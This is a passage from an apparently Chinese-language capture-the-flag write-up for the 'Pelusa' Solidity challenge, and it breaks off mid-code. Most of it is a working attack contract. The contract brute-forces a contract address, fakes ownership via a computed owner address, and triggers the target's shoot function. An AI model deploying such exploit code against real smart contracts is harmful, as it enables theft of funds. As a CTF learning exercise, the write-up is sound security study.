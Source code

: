 以上两者的结果就是相等的！

所以攻击合约如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

contract PelusaHacker {

    Exploit public exp;

    constructor() {

    }

    function attack(address target, address sender) public{

        while (true) {
            exp = new Exploit(target);
            if (uint256(uint160(address(exp))) % 100 == 10){
                break;
            }
        }
        exp.setParam(sender);
        exp.attack();

    }

}


contract Exploit {

    address public  fakeOwner;
    uint256 private shot = 0;
    address private target;

    constructor(address _target){
        target = _target;
        if (uint256(uint160(address(this))) % 100 == 10){
            IPelusa(target).passTheBall();
        }
    }

    function setParam(address sender) public {
        fakeOwner =  address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, bytes32(0))))));
    }

    function getBallPossesion() public view returns (address){
        return fakeOwner;
    }

    function handOfGod() public returns (uint256){
        shot = shot + 1;
        return 22061986;
    }

    function attack() public {
        IPelusa(target).shoot();
    }
}

interface IPelusa{
```